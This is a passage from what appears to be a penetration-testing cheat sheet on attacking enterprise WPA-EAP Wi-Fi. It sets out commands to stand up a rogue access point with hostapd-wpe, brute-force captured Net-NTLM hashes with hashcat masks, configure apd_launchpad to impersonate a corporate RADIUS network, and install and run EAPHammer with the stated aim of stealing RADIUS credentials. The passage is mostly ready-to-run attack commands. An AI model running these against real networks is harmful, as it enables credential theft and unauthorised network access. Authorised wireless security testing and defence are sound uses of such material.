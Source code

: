 3\. Run fake AP with RADIUS server:

```
$ sudo airmon-ng check kill
$ sudo /usr/sbin/hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

4\. Crack Net-NTLM hashes (mask example):

```
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u ?1?1?1?1?1?1?1?1
$ hashcat -m 5500 -a 3 net-ntlmv1.txt -1 ?d?l?u?s ?1?1?1?1?1?1?1?1
```


#### apd_launchpad

* [https://github.com/WJDigby/apd_launchpad](https://github.com/WJDigby/apd_launchpad)
* [https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html](https://www.c0d3xpl0it.com/2017/03/enterprise-wifi-hacking-with-hostapd-wpe.html)

```
$ python ~/tools/apd_launchpad/apd_launchpad.py -t radius -s MegaCorp -i wlan1 -ch 1 -cn '*.megacorp.local' -o MegaCorp
$ vi radius/radius.conf
...
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
```


#### EAPHammer

* [https://github.com/s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer)

Setup:

```
$ git clone https://github.com/s0lst1c3/eaphammer.git ~/tools/eaphammer && cd ~/tools/eaphammer
$ sudo ./kali-setup
$ sudo python3 -m pip install flask-cors flask-socketio --upgrade
```

Create a certificate:

```
$ sudo ./eaphammer --cert-wizard
```

Steal RADIUS creds:

```
$ sudo ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 1 --interface wlan1 --auth wpa-eap --creds
```




## Misc
